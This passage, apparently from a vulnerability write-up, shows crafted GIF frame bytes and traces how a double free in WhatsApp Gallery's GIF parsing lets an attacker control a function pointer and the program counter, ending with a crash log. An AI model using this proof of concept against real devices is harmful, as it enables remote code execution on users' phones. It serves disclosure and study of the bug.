 ```
2C 00 00 00 00 08 00 15 00 00 08 9C 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
F0 CE 57 2B 6F EE FF FF
```
- Frame 2:
```
2C 00 00 00 00 1C 0F 00 00 00 00
```
- Frame 3:
```
2C 00 00 00 00 1C 0F 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00
```
- Frame 4:
```
2C 00 00 00 00 18 00 0A 00 0F 00 01 00 00
```
The below sequence is what happened when WhatsApp Gallery is opened:
- First parse:
	- Init:
		- GifInfo *info = malloc(168);
	- Frame 1:
		- info->rasterBits = reallocarray(info->rasterBits, 0x8*0x15, 1);
	- Frame 2:
		- info->rasterBits = reallocarray(info->rasterBits, 0x0*0xf1c, 1);
	- Frame 3:
		- info->rasterBits = reallocarray(info->rasterBits, 0x0*0xf1c, 1);
	- Frame 4:
		- does not matter, it is there to make this GIF file valid
- Second parse:
	- Init:
		- GifInfo *info = malloc(168);
	- Frame 1:
		- info->rasterBits = reallocarray(info->rasterBits, 0x8*0x15, 1);
	- Frame 2, 3, 4:
		- does not matter
	- End:
		- info->rewindFunction(info);

Because of the double-free bug occuring in the first parse, `info` and `info->rasterBits` now points to the same location. With the first frame crafted as said, we could control rewindFunction and PC when `info->rewindFunction(info);` is called.
Take note that the frames are all LZW encoded. We must use an LZW encoder to encode the frames. 
The above GIF triggers crash as below:
```
--------- beginning of crash
10-02 11:09:38.460 17928 18059 F libc    : Fatal signal 6 (SIGABRT), code -6 in tid 18059 (image-loader), pid 17928 (com.whatsapp)
10-02 11:09:38.467  1027  1027 D QCOM PowerHAL: LAUNCH HINT: OFF
10-02 11:09:38.494 18071 18071 I crash_dump64: obtaining output fd from tombstoned, type: kDebuggerdTombstone
10-02 11:09:38.495  1127  1127 I /system/bin/tombstoned: received crash request for pid 17928
10-02 11:09:38.497 18071 18071 I crash_dump64: performing dump of process 17928 (target tid = 18059)
10-02 11:09:38.497 18071 18071 F DEBUG   : *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
```